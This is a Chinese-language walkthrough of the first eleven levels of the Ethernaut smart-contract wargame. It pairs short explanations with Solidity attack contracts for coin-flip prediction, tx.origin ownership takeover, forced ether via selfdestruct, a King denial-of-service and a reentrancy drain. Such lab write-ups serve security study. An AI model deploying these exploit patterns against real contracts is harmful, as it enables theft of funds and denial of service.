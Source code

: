 # Writeup(31)
## 1.Hello Ethernaut

跟着返回的提示调用合约函数

![](../images/a-ethnaut-1-1.png)

## 2.Fallback
1. 调用contribute函数捐款小于0.001e的数额, getContribution函数返回值大于0
2. 发送任意数额的eth调用fallback函数, owner改为当前账户
3. 调用withdraw提取所有金额

## 3.Fallout

Fal1out并不是构造函数, 手动调用即可

注意:Solidity合约构造函数不能和合约名一样

## 4.Coin Flip
编写合约代码, 提前计算结果, 在不同的区块下调用guess函数10次
```solidity
contract Guess {
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
    CoinFlip x = CoinFlip(0x7B588F9C807501337AFa5AeF3945bd18FdAF9CbF);
    function guess() public {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        x.flip(side);
    }
}
```
## 5.Telephone
tx.origin是交易的发起者, msg.sender是当前函数的调用者
编写hack合约, 通过合约调用changeOwner函数
```solidity
contract Hack {
    constructor() {
        Telephone t = Telephone(0x35B2bAb61Ee13B9256811B693AA054Ad1dd016Ec);
        t.changeOwner(0x3E9436324544C3735Fd1aBd932a9238d8Da6922f);
    }
}
```
## 6. Token
向任意地址发送21单位的token
```solidity
// 直接操作uint256变量减法会有溢出问题
require(balances[msg.sender] - _value >= 0);
```
## 7.Delegation
利用下面的代码完成代理调用
```solidity
(bool result,) = address(delegate).delegatecall(msg.data);
```
向Delegation合约发送0eth, tx的data部分为pwn的方法id

## 8. Force
使用selfdestruct销毁自建合约, 向目标合约发送eth
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Hack {
    constructor() payable public {
        selfdestruct(0x888Eaa51Cd5E643DFc19b594DA803362c5265B7b);
    }
}
```
## 9. Vault
使用函数w3.eth.get_storage_at读取对应slot值, 获取password, 调用unlock函数解锁

## 10. King
使用合约向目标合约转0.001eth, 成为新的king, 其他人再尝试获得king会因为transfer不成功而失败
注意要使用低级调用call函数, 当调用数据为空时, 会自动调用目标合约的receive函数
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Hack {
    constructor() payable public {
        (bool success, ) = 0xaD5Ae7Ec24Ae99e2971F5f0D5c21DCBe24189962.call{value:msg.value}("");
        require(success, "failed");
    }
}
```
## 11. Re-entrancy
目标合约的withdraw函数先转账再扣除余额, 引发重入攻击
攻击合约实现receive函数, 当目标合约的余额大于0时, 可以继续递归调用withdraw函数提取资金
```solidity
// 部署合约附带0.001e
contract Hack {
    Reentrance r = Reentrance(0xFAe73a7Df5253a2a8b7e32987866c2B157861371);

    constructor() payable public {
        r.donate{value: msg.value}(address(this));
    }

    function hack() public {
        r.withdraw(r.balanceOf(address(this)));
        selfdestruct(0x3E9436324544C3735Fd1aBd932a9238d8Da6922f);
    }

    receive() external payable { 
        if (address(r).balance > 0) {
            r.withdraw(r.balanceOf(address(this)));
        }
     }
}
```
